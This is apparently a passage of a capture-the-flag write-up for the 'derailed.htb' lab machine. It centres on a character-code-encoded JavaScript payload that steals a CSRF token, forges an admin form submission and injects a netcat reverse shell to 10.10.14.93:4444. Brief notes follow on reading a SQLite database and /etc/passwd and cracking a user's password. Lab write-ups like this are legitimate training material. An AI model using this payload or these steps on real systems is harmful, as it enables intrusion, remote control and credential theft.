 ```bash
118,97,114,32,120,109,108,72,116,116,112,32,61,32,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,40,41,59,10,120,109,108,72,116,116,112,46,111,112,101,110,40,32,34,71,69,84,34,44,32,34,104,116,116,112,58,47,47,100,101,114,97,105,108,101,100,46,104,116,98,58,51,48,48,48,47,97,100,109,105,110,105,115,116,114,97,116,105,111,110,34,44,32,116,114,117,101,41,59,10,120,109,108,72,116,116,112,46,115,101,110,100,40,32,110,117,108,108,32,41,59,10,10,115,101,116,84,105,109,101,111,117,116,40,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,118,97,114,32,100,111,99,32,61,32,110,101,119,32,68,79,77,80,97,114,115,101,114,40,41,46,112,97,114,115,101,70,114,111,109,83,116,114,105,110,103,40,120,109,108,72,116,116,112,46,114,101,115,112,111,110,115,101,84,101,120,116,44,32,39,116,101,120,116,47,104,116,109,108,39,41,59,10,32,32,32,32,118,97,114,32,116,111,107,101,110,32,61,32,100,111,99,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,97,117,116,104,101,110,116,105,99,105,116,121,95,116,111,107,101,110,39,41,46,118,97,108,117,101,59,10,32,32,32,32,118,97,114,32,110,101,119,70,111,114,109,32,61,32,110,101,119,32,68,79,77,80,97,114,115,101,114,40,41,46,112,97,114,115,101,70,114,111,109,83,116,114,105,110,103,40,39,60,102,111,114,109,32,105,100,61,34,98,97,100,102,111,114,109,34,32,109,101,116,104,111,100,61,34,112,111,115,116,34,32,97,99,116,105,111,110,61,34,47,97,100,109,105,110,105,115,116,114,97,116,105,111,110,47,114,101,112,111,114,116,115,34,62,32,32,32,32,60,105,110,112,117,116,32,116,121,112,101,61,34,104,105,100,100,101,110,34,32,110,97,109,101,61,34,97,117,116,104,101,110,116,105,99,105,116,121,95,116,111,107,101,110,34,32,105,100,61,34,97,117,116,104,101,110,116,105,99,105,116,121,95,116,111,107,101,110,34,32,118,97,108,117,101,61,34,112,108,97,99,101,104,111,108,100,101,114,34,32,97,117,116,111,99,111,109,112,108,101,116,101,61,34,111,102,102,34,62,32,32,32,32,60,105,110,112,117,116,32,105,100,61,34,114,101,112,111,114,116,95,108,111,103,34,32,116,121,112,101,61,34,116,101,120,116,34,32,99,108,97,115,115,61,34,102,111,114,109,45,99,111,110,116,114,111,108,34,32,110,97,109,101,61,34,114,101,112,111,114,116,95,108,111,103,34,32,118,97,108,117,101,61,34,112,108,97,99,101,104,111,108,100,101,114,34,32,104,105,100,100,101,110,61,34,34,62,32,32,32,32,60,98,117,116,116,111,110,32,110,97,109,101,61,34,98,117,116,116,111,110,34,32,116,121,112,101,61,34,115,117,98,109,105,116,34,62,83,117,98,109,105,116,60,47,98,117,116,116,111,110,62,39,44,32,39,116,101,120,116,47,104,116,109,108,39,41,59,10,32,32,32,32,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,40,110,101,119,70,111,114,109,46,102,111,114,109,115,46,98,97,100,102,111,114,109,41,59,10,32,32,32,32,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,98,97,100,102,111,114,109,39,41,46,101,108,101,109,101,110,116,115,46,114,101,112,111,114,116,95,108,111,103,46,118,97,108,117,101,32,61,32,39,124,114,109,32,47,116,109,112,47,102,59,109,107,102,105,102,111,32,47,116,109,112,47,102,59,99,97,116,32,47,116,109,112,47,102,124,115,104,32,45,105,32,50,62,38,49,124,110,99,32,49,48,46,49,48,46,49,52,46,57,51,32,52,52,52,52,32,62,47,116,109,112,47,102,39,59,10,32,32,32,32,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,98,97,100,102,111,114,109,39,41,46,101,108,101,109,101,110,116,115,46,97,117,116,104,101,110,116,105,99,105,116,121,95,116,111,107,101,110,46,118,97,108,117,101,32,61,32,116,111,107,101,110,59,10,32,32,32,32,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,98,97,100,102,111,114,109,39,41,46,115,117,98,109,105,116,40,41,59,10,125,44,32,51,48,48,48,41,59
```



## Privesc


we are `rails` user when we spawn shell trought execution ajax newDocument with that  !! 

i finded the default name of db in /var/www/rails-app/db/development.sqlite3

in this file there are 2 pass from alice and toby! in /etc/passwd toby i think it's the owner of openmediavault-webgui user

found an hash i cracked the pass "greenday" .
